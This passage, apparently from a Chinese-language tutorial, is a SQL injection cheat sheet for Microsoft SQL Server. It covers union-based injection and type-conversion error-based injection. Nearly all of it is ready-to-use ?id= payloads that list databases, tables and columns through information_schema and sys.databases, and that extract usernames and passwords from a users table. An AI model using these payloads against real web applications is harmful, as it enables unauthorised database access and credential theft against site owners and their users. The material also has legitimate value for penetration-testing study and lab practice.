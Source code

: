 5. 查询数据库中表信息

   ```
   ?id=-1' union select 1,(select top 1 table_name from test.information_schema.tables where table_name not in(select top 0 table_name from test.information_schema.tables)),3-- #查询test数据库中所有表信息
   ```

6. 查询数据库中列信息

   ```
   ?id=-1' union select 1,(select top 1 column_name from test.information_schema.columns where table_name='users' and column_name not in(select top 0 column_name from test.information_schema.columns where table_name='users')),3-- #查询test数据库中users表的列信息
   ```

7. 查询数据内容信息

   ```
   ?id=-1' union select 1,(select top 1 username from users where username not in(select top 0 username from users)),(select top 1 password from users where password not in(select top 0 password from users))-- #通过两个回显点同时查看用户名和密码
   ```

## 报错注入

报错注入通常使用类型转换报错来使数据显示出来

1. 类型转换报错获取数据库信息

   ```
   ?id=-1' and 1=db_name()--
   ?id=-1' and (select name from sys.databases where database_id=1)>0--
   ?id=1' and (select name,':' from sys.databases for xml path)>0--  #全显示
   ?id=1' and (select quotename(name) from sys.databases for xml path)>0--  #全显示（quotename函数能够为返回信息加上[]，便于观察）
   ?id=1' and (select top 1 cast(name as int) from sys.databases where name not in(select top 0 name from sys.databases))>0--
   ?id=1' and (select top 1 convert(int,name) from sys.databases where name not in(select top 0 name from sys.databases))>0--
   ```

2. 类型转换报错获取表信息

   ```
   ?id=1' and (select quotename(table_name) from test.information_schema.tables for xml path)>0--  #爆出全部
   ?id=1' and (select top 1 cast(table_name as int) from test.information_schema.tables where table_name not in(select top 0 table_name from test.information_schema.tables))>0--
   ?id=1' and (select top 1 convert(int,table_name) from test.information_schema.tables where table_name not in(select top 0 table_name from test.information_schema.tables))>0--
   ```

3. 类型转换报错获取列信息

   ```
   ?id=1' and (select quotename(column_name) from test.information_schema.columns where table_name='users' for xml path)>0-- #爆出全部
   ?id=1' and (select top 1 cast(column_name as int) from test.information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from test.information_schema.columns where table_name='users'))>0--
   ?id=1' and (select top 1 convert(int,column_name) from test.information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from test.information_schema.columns where table_name='users'))>0--
   ```
